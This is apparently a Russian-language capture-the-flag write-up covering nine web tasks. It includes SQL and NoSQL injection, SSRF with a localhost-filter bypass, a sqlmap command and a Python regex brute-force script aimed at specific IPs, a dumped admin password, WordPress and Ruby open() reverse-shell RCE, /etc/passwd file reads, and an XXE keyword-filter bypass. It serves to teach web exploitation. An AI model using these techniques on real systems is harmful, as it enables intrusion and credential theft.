





## SERVER SIDE WRITEUP

### 1. PASSWORD GENERATOR 1

В описании таска доступен исходный код сервиса, изучив его можно заметить, что
пользовательский ввод логина и пароля при регистрации никак не фильтруется, а также
видно структуру запроса к базе данных, поэтому можно внедрить sql инъекцию.

```
async register(user, pass, role) {
    return new Promise(async (resolve, reject) => {
        try {
            let query = `INSERT INTO users (role, username, password) VALUES ('${role}', '${user}', '${pass}')`;
```


И залогинившись под этими учетными данными получаем флаг

`deteact{4804ea3c290391280973c65db196f8d0}`

### 2. PASSWORD GENERATOR 2

Изучая сайт можно обнаружить, что запрос регистрации отправляется GET запросом на
/secureregister, и получить доступ можно только с локального хоста.

При запросе к /api/password передается поле endpoint к которому сервер делает GET запрос
по адресу /keygen. Таким образом можно выполнить атаку SSRF.

Фильтрацию localhost и 127.0.0.1
можно обойти с помощью адреса 127.2.2.2, а мусор отбросить дополнительным параметром.
Применив уязвимость mass assignment зарегистрируемся как админ.


Залогинившись, получаем флаг

`deteact{0d4db1d1ef5c63f7bc124979c11c3476}`

### 3. PRIVATE DATA

Проанализировав сайт с помощью wpscan заметим, что на сайте используется устаревший плагин
wp-statistics

```angular2html

[+] wp-statistics
 | Location: http://79.143.25.24:8157/wp-content/plugins/wp-statistics/
 | Last Updated: 2023-03-09T12:23:00.000Z
 | [!] The version is out of date, the latest version is 14.0.2
```

В интернете найдем, что данная версия плагина подвержена sql инъекции.

Так как инъекция blind time based, вручную перебирать очень долго,
поэтому используя с помощью sqlmap прочитаем базу данных сервера:

`sqlmap -u "http://79.143.25.24:8157/wp-admin/admin.php?ID=1&page=wps_pages_page&type=1" --techniqu=T --dbms="mysql" -p "ID" -b --tables -D wordpress`

И в таблице users_admin найдем учетные данные администратора

```angular2html
+----+-------+--------------------+
| ID | login | password           |
+----+-------+--------------------+
| 1  | admin | Jrkvf!mYcLtTZcjW8d |
+----+-------+--------------------+
```

Залогинившись под админом среди постов найдем первый флаг

`deteact{ce67481ba2558f06be3f4ce71fc67c4f}`

### 4. WordPress Code Execution

Используя учетные данные администратора изменим один из php файлов на сервере, загрузив в него Reverse Shell.
Поднимем прослушивание порта локально и обратимся к файлу, код выполнится на сервере, и установится соединение.
На сервере найдем флаг:

`deteact{4270a0ad90e239b421d5ec36bcae1c2f}`

### 5. Image Server

Передав в image_id строку, получим сообщение об ошибке, содержащее исполняемую команду.
В нем содержится дополнительный параметр __host_debug, который может быть передан в запросе, а также переменная oldserver:8000.

Отбросив лишнюю часть запроса, просканируем директории на oldserver и найдем файл openapi.json



В файле найдем адрес /test_endpoint в который передается необязательный параметр fname
С помощью этого параметра можно прочитать любой файл на сервере.
Изучив /etc/passwd, найдем пользователя с именем flag, в его домашней директории в файле flag.txt будет лежать наш флаг)

`deteact{4a4db41eacd762e1b0bc2f303326df91}`



### 6. Image Converter

Передав в поле ввода url "сломанную" ссылку, содержащую разные спецсимволы, получим ошибку обработки.
Из ошибки получим, что переданная url используется в функции open. А сам сервер использует ruby.



В интернете найдем, что используя функцию open можно выполнить RCE на сервере, передав после символа '|' необходимую команду.
Загрузим в команду reverse shell посредством ruby, и на сервере найдем флаг.

### 7. User API

Тестируя возможные уязвимости, обнаружим что сервер подвержен NoSQL injection.
Проверив стандартные учетные данные увидим, что имя пользователя - admin, а пароль имеет формат флага и начинается с deteact{
Напишем скрипт для подбора оставшейся части пароля

```angular2html
url = "http://45.131.97.54:3000/login"
headers = {"Host": "45.131.97.54:3000", "Content-Type": "application/json"}
possible_chars = list(string.ascii_letters)[:26] + list(string.digits)


def get_password():
    params = {"username": {"$eq":"admin"}, "password": {"$regex":"^deteact{" } }
    password = "^deteact{"
    while True:
        for c in possible_chars:
            params["password"]["$regex"] = password + c
            string = json.dumps(params)
            print(string, end=' ')
            pr = requests.post(url, data=string, headers=headers)
            print(pr.text)
            if "ess" in pr.text:
                password += c
                break
        else:
            break
    print(password)
```

Исполнив скрипт получим флаг от таска



`deteact{6b78aa0e40fefcabea1cf8076cac7204}`

### 8. AI Coder

Выполнив стандартную xml инъекцию обратимся к файлу /etc/passwd в котором и найдем флаг.

### 9. AI Coder V2

Заметим что переданный нами email выводится ответом на сервере, получается что поле подвержено xml инъекции
На сервере стоит фильтр, который не выполняет запрос, если в нем содержатся ключевые слова `xml` `file` `system` `localhost` `127.` `0.0.0.0`

Просканировав директории на сервере найдем адрес /secret, доступный только при запросе с локального хоста
Заменив SYSTEM на PUBLIC, выполним SSRF на собственный сервер, в котором перенаправим запрос на `http://localhost/secret`
И выполнив xml инъекцию, получим в поле email флаг.


